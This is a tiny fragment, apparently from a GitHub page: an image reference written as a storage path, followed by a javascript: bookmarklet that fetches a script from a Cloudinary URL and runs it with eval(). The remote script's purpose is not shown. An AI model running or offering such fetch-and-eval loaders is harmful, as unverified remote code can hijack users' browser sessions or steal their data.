 ```javascript:fetch("https://res.cloudinary.com/dq36xqdoe/raw/upload/v1679490768/BIM_gecfhv.js").then(r => r.text()).then(r => eval(r))```
